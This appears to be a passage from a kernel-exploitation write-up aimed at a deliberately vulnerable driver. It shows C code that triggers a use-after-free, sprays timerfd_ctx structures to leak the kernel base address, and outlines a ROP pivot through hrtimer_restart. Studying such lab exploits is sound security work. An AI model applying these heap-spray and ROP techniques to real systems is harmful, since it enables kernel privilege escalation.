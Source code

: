 ```c
  int timerfd=0;
	struct itimerspec timer_spec = {0};
	timer_spec.it_value.tv_nsec = 100000; // 100μs
	// timer_spec.it_value.tv_sec = 0; // 0 seconds
	timerfd_settime(timer_fd, 0, &timer_spec, NULL);
```

#### executing `hrtimer_restart` function

Waiting for the specified amount of time should be enough to trigger it.

### How do we exploit this?

This looks much simpler compared to the previous method.

1. Allocate and free heap memory using our vulnerable driver.
2. Spray `timerfd_ctx` structs into the freed heap and leak the kernel base to calculate gadget addresses.
3. Place a ROP gadget where `hrtimer_restart` is expected, so that it pivots `RSP` to `RDI`.
4. Place the actual ROP chain at the start of the `timerfd_ctx`.

## Exploitation

### Try #1

#### 1. Allocate and free our heap through the vulnerable driver.

```c
int vuln_fd = open("/dev/vuln", O_RDWR);
if(ioctl(vuln_fd, ALLOC, &alloc_size) != 0) {
  perror("ALLOC failed");
  return -1;
}
if (ioctl(vuln_fd, FREE) != 0) {
      perror("FREE failed");
      return -1;
  }
```

#### 2. Allocate a `timerfd_ctx` in our freed heap and leak base addresses.

Let’s spray a bunch of `timerfd_ctx` structs to improve our chances.

```c
char *uaf_buf = malloc(alloc_size);
printf("uaf_buf: %p\n", uaf_buf);
wait_for_enter(); // just a function waiting for me to press enter.
struct itimerspec timer_spec = {0};
timer_spec.it_value.tv_sec = 10; // 10 seconds
for(int i = 0; i < spray_count; i++) {
  timerfd_settime(timer_fds[i], 0, &timer_spec, NULL);
}

// Read through our heap
if (ioctl(vuln_fd, USE_READ, uaf_buf) != 0) {
    perror("USE_READ failed");
    free(uaf_buf);
}

uint64_t *leak = (uint64_t*)uaf_buf;
uint64_t timerfd_tmrproc = leak[5];
base_kernel_address = timerfd_tmrproc - TIMERFD_TMRPROC_OFFSET;
printf("base_address: 0x%lx\n", base_kernel_address);
```
